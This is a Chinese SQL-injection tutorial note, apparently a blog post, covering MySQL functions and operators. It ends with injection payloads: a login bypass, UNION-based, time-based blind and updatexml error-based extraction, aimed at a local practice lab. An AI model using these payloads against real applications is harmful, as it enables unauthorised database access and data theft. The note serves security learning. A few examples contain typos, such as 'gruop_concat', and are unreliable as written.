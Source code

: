 ```yaml
---
layout: post
title: 1.1.1-SQL注入-SQL注入基础-Web应用框架分析-MySql注入方法逻辑运算及常用函数
category: 
  - web安全
tags: 
  - sql注入
  - web安全
abbrlink: 1786754042
date: 2018-06-11 00:00:00
description: more
---
```

## MySql常用函数及逻辑运算
### 01 常用的函数
MySql内置函数：  
https://dev.mysql.com/doc/refman/5.7/en/dynindex-function.html  

MySql注入常用函数

	函数名称 函数功能
	system_user() 系统用户名
	user() 用户名
	current_user() 当前用户名
	session_user() 连接数据库的用户名
	database() 数据库名
	version() @@version 数据库版本
	@@datadir 数据库路径
	@@basedir 数据库安装路径
	@@version_compile_os 操作系统
	count() 返回执行结果数量
	concat() 没有分隔符地连接字符串
	concat_ws() 含有分隔符地连接字符串
	group_concat() 连接一个组的所有字符串，并以逗号分隔每一条数据
	load_file() 读取本地文件
	into outfile 写文件
	ascii() 字符串的ASCII代码值
	ord() 返回字符串第一个字符的ASCII值
	mid() 返回一个字符串的一部分
	substr() 返回一个字符串的一部分
	length() 返回字符串的长度

	left() 返回字符串的最左面几个字符
	floor() 返回小于或等于x的最大整数
	rand() 返回0和1之间的一个随机数
	extractvalue() 
	第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
	第二个参数：XPath_string（Xpath格式的字符串）
	作用：从目标XML中返回包含所查询值的字符串
	updatexml()
	第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
	第二个参数：XPath_string（Xpath格式的字符串）
	第三个参数：new_value，String格式，替换查找到的符号条件的数据
	作用：改变文档中符合条件的节点的值
	sleep() 让此语句运行N秒钟
	if() 
	>  SELECT IF(1>2,2,3);
	-> 3
	char()
	返回整数ASCII代码字符组成的字符串
	STRCMP() 比较字符串内容
	IFNULL() 假如参数1不为NULL，则返回值为参数1，否则其返回值为参数2
	exp() 返回e的x次方

---

	运行
	select system_user(); 
	select user();
	select current_user();
	select session_user();

	select show databases;
	use security
	select database();

	select version();
	select @@version;
	select @@datadir;
	select @@basedir;
	select @@version_compile_os;
	select count(*) from users;
	select count(1) from users;

	select concat(username,password) from users;
	select concat_ws(',',username,password) from users;
	select concat_ws(0x7e,username,password) from users;//~
	select gruop_concat(username) from users;

	select 'mysql' into outfile '/tmp/mysql';
	select load_file('/tmp/mysql');

	select ascii('a');
	select ord('adkfjk'); // 字符串第一个字符的ascii
	select mid('bdkfjk',1,1); // b 从第一位开始取第一个字符
	select mid('bdkfjk',1,1); // bd
	select substr('bdkfjk',1,2); //bd
	select substr('bdkfjk',1,4); //bdkf

	select length('dfdf'); // 4

	select left('dfdfdf',2) // df
	select floor(2.4); // 2
	select floor(5.6); // 5

	select rand(); // 0~1之间随机数

	select sleep(2); 

	select if(1<2,2,3);

	char(97);

	select strcmp('a','b'); // -1 对比两个值
	select strcmp('a','a'); // 0

	select ifnull(null,1);
	select ifnull(2,1);

	select exp(2); // 自然对数e 的几次方

XPath  
http://www.w3school.com.cn/xpath/  



#### MySql运算符
算术运算符：  

* \+ 加法运算
* - 减法运算
* \* 乘法运算
* ／ 除法运算
* % 求余运算
* DIV 除法运算，同”／“
* MOD 求余运算，同”%“

比较运算符：
  
* \> 大于
* < 小于
* = 等于
* \>= 大于等于
* <= 小于等于
* != 或 <> 不等于
* IS NULL 为空
* IS NOT NULL 不为空
* BETWEEN AND 在..之间
* IN 包含
* NOT IN 不包含
* LIKE 模式匹配
* NOT LIKE 模式匹配
* REGEXP 正则表达式

逻辑运算符：  

* && 或 AND 与
* \|\| 或 OR 或
* ! 或 NOT 非
* XOR 异或


---

	select 1+2;
	
	select id,username from users where id between 1 and 4;
	
	select id,username from users where username in ('admin','tesdt');
	
	select id,username from users where username not in ('admin','tesdt');
	
	select id,username from users where username like 'admin';
	
	select id,username from users where username like '%ad%';
	
	select user() regexp 'root';
	
		
	
### 02 逻辑运算
#### 逻辑运算符： AND <--> OR

	select * from users where id=1; // true
	select * from users where id=1 and 1=1; // true
	select * from users where id=1 and 1=2; // false 返回 empty
	
	select * from users where id=1 or 1=2; // true 
	
	
---

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/02/01.jpeg)

	登录处的SQL语句：
	select * from users where username='admin' and pwd='pass';
	'or '1' = '1
	select * from users where username=''or '1'='1' and pwd=''or '1' = '1';
	

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/02/02.jpeg)

	and 1=2 union select 1,2,3-- // 1=2 false 执行union后面的语句
	select user() regexp '^ro' // ro开头的用户
	ascii(substr(select user()),1,1)=114 // 用户名为r的用户
	if(ascii(substr((select user(),1,1))=114,0,sleep(5))) // 如果用户名第一个字母是r就返回0，否则睡5秒
	(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=9) 
	updatexml(1,concat(0x7e,(select @@version),0x7e),1) // 报错信息打印版本
	
	
---

	http://127.0.0.1/Less-1/?id=1 and 1=2 union select 1,2,3--+
	http://127.0.0.1/Less-1/?id=1 and 1=2 union select 1,user(),3--+
	

